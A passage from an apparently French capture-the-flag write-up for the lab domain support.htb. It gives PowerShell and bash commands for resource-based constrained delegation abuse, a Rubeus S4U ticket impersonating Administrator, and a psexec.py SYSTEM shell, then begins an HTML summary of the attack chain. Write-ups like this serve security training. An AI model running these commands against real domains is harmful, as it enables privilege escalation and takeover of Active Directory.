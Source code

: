 ```powershell
Get-ADComputer -Identity FAKE-COMP01

# 5. Configurer la délégation sur le DC
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
```

### 🎫 Phase 5 : Génération du ticket Kerberos (PowerShell)

```powershell
# 1. Upload Rubeus
upload Rubeus.exe

# 2. Générer le hash RC4
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
# → RC4: 58A478135A93AC3BF058A5EA0E8FDB71

# 3. Exécuter l'attaque S4U pour usurper Administrator
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
# → Copier le ticket base64 généré
```

### 👑 Phase 6 : Shell SYSTEM (Linux)

```bash
# 1. Conversion du ticket Kerberos
base64 -d ticket.kirbi.b64 > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache

# 2. Utilisation du ticket pour obtenir un shell Administrator
export KRB5CCNAME=ticket.ccache
psexec.py support.htb/administrator@dc.support.htb -k -no-pass
# → NT AUTHORITY\SYSTEM obtenu !
```

---

## 🔗 Chaîne d'attaque résumée

<div class="bg-white dark:bg-dark-navbar px-6 py-5 rounded-xl shadow-lg my-8">
    <h3 class="text-2xl font-bold text-portfolio-violet mb-4 flex items-center">
        <i class="fas fa-project-diagram mr-3"></i>Parcours d'attaque complet
    </h3>
    <div class="space-y-4">
        <div class="flex items-start gap-4 p-4 bg-blue-50 dark:bg-blue-900/20 rounded-lg border-l-4 border-blue-500">
            <div class="text-3xl font-bold text-blue-500 mt-1">1</div>
            <div class="flex-1">
                <div class="font-bold text-blue-600 dark:text-blue-400">Reconnaissance et accès SMB</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">Nmap → SMB anonyme → UserInfo.exe.zip</div>
            </div>
        </div>
        <div class="flex items-start gap-4 p-4 bg-green-50 dark:bg-green-900/20 rounded-lg border-l-4 border-green-500">
            <div class="text-3xl font-bold text-green-500 mt-1">2</div>
            <div class="flex-1">
                <div class="font-bold text-green-600 dark:text-green-400">Reverse Engineering</div>
                <div class="text-sm text-gray-600 dark:text-gray-400">ILSpy → Déchiffrement XOR → Credentials LDAP</div>
            </div>
        </div>
        <div class="flex items-start gap-4 p-4 bg-purple-50 dark:bg-purple-900/20 rounded-lg border-l-4 border-purple-500">
            <div class="text-3xl font-bold text-purple-500 mt-1">3</div>